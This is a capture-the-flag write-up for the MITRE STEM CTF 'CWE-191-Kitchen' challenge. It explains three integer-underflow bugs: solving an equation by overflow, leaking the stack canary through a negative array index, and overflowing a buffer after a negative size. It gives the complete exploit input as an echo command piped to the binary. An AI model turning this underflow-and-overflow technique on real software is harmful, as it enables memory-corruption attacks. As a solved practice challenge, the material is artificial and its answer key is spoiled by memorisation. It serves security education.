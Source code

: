 # Write-up for CWE-191-Kitchen MITRE STEM CTF Challenge

The challenge is a set of three CWE-191 vulnerabilities. 

Vulnerability 1: Simple overflow to solve a generally impossible equation.
Vulnerability 2: A read vulnerability by overflowing and reading a negative index of an array. There
exists a large number (the stack canary to be specific) there that the computer isn't expecting.
Vulnerability 3: A write vulnerability by providing a negative number, and then performing a
buffer overflow.

Run the command:
```
echo -ne '876982858 0 -9223372036854775808 -1 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808' | ./cwe-191-kitchen-release
```
It may take a few times to get the correct random.

Or manually provide these for each vulnerability:
```
Vuln 1: 876982858
Vuln 2: 0 -9223372036854775808 (May take a few attempts to random correctly)
Vuln 3: sz: -1, and then 20 9223372036854775808s
```

